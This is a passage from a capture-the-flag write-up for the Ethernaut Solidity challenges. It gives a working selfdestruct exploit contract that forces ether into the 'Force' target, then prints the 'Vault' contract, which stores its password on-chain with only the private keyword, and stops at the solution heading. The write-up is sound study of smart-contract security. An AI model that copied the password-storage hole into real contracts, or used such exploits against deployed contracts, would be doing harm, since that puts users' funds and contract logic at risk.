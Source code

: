 There are two ways to send ether to a contract without their permission. One is via the coinbase account where the miner provides a contract address instead of theirs to get a minning reward. Another way is through `selfdestruct`.\
When a contract self-destructs, it can provide an address to send the balance in it. Creating a contract with balance and self-destructing it by providing the instance address will clear this challenge.
##### Exploit
```
contract AttackForce {
    Force public immutable targetContractAddress;

    constructor(Force _targetContractAddress) payable {
        targetContractAddress = _targetContractAddress;
    }

    function attack() external {
        selfdestruct(payable(targetContractAddress));
        assert(targetContractAddress.balance > 0);
    }
}
```
1. Deploy the above contract with 1 wei.
2. Call `attack()` to self-destruct and send the balance to the `Force` contract.\
That's it, now the `Force` contract has a non-zero balance (you can check it in Etherscan).
##### Takeaway from Ethernaut
In solidity, for a contract to be able to receive ether, the fallback function must be marked payable.\
However, there is no way to stop an attacker from sending ether to a contract by self-destroying. Hence, it is important not to count on the invariant address(this).balance == 0 for any contract logic.

# 8. Vault
### Challenge
- Make the `locked` variable `false`.
### Purpose
Nothing is private in Ethereum Blockchain.
### Contract
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Vault {
  bool public locked;
  bytes32 private password;

  constructor(bytes32 _password) {
    locked = true;
    password = _password;
  }

  function unlock(bytes32 _password) public {
    if (password == _password) {
      locked = false;
    }
  }
}
```
### Solution
##### Explanation